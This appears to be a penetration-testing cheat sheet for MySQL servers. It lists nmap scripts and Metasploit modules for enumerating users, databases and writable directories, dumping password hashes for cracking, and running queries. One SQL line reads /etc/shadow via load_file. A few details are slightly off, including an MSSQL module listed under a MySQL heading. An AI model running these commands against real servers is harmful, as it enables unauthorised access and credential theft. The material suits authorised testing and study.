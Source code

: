 
### Using `nmap` to enumerate accounts with NULL password

```
nmap -p 3306 -sV <target-IP> --script mysql-empty-password
```

### Using `nmap` to enumerate SQL server info

```
nmap -p 3306 -sV <target-ip> --script mysql-info
```

### Using `nmap` to enumerate users

```
nmap -p 3306 -sV <target-ip> --script mysql-users --script-args="mysqluser='root',mysqlpass=''"
```

### Using `nmap` to enumerate databases

```
nmap -p 3306 -sV <target-ip> --script mysql-databases --script-args="mysqluser='root',mysqlpass=''"
```

### Using `nmap` to enumerate variables

- Using the `mysql-variables` script to retrieve configuration and system information from the MySQL server:
```
nmap -p 3306 -sV <target-ip> --script mysql-variables --script-args="mysqluser='root',mysqlpass=''"
```

### Using `nmap` to perform audit on the SQL server

```
nmap -p 3306 -sV <target-ip> --script mysql-audit --script-args="mysqlaudit.username='root',mysql-audit.pass='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"
```

- The `mysql-audit` script in Nmap is designed to perform security audits on MySQL database servers by checking for compliance with specific security configurations, guidelines, or benchmarks.

### Using `nmap` to dump hashes

- Dumps the password hashes from an MySQL server in a format suitable for cracking by tools such as John the Ripper.
```
nmap -p 3306 <ip> --script mysql-dump-hashes --script-args='username=root,password=secret'
```

### Using `nmap` to run MySQL queries

```
nmap -p 3306 <ip> --script mysql-query --script-args="query='select count(*) from books.authors;',username='root',password='secret'"
```

### Using `metasploit` to enumerate directories
- Metasploit module to enumerate ***readable*** directories in the system using MySQL:
```
use auxiliary/scanner/mysql/mysql_file_enum
```

- Metasploit module to enumerate ***writable*** directories in the system using MySQL:
```
use auxiliary/scanner/mysql/mysql_writable_dirs
```

- **WordList path** - /usr/share/metasploit-framework/data/wordlists/directory.txt
- Set verbosity to `false` to avoid getting spammed with too many messages. 
- To show more options use command `advanced`
- Instead of using `set <RHOSTS>`, we can use `setg <RHOSTS>` to set it as a global variable, so that we don't have to set it again when we switch to another module.

**How does this module work ?**

This Metasploit module doesn't enumerate directories in the traditional sense but rather checks if MySQL has write access to specific directories by executing SQL queries that attempt to create temporary files in those directories. If the MySQL server has the necessary permissions and access rights, it will allow the creation of files in those directories.

### Using `metasploit` to dump schema

```
use auxiliary/scanner/mssql/mssql_schemadump
```

- A schema in a database is a container for database objects like tables, views, procedures, and functions.
### Using `sql_hashdump` module

- Metasploit module to collect the hashes of different users who have access to the MySQL server from the user account information stored in the `mysql.user` table:
```
use auxiliary/scanner/mysql/mysql_hashdump
```

### Using `mysql` to access sensitive files

- `mysql` command to access `/etc/shadow` file.
```
select load_file("/etc/shadow")
```

- *The `/etc/shadow` file keeps records about encrypted users' passwords, as well as other passwords related information.
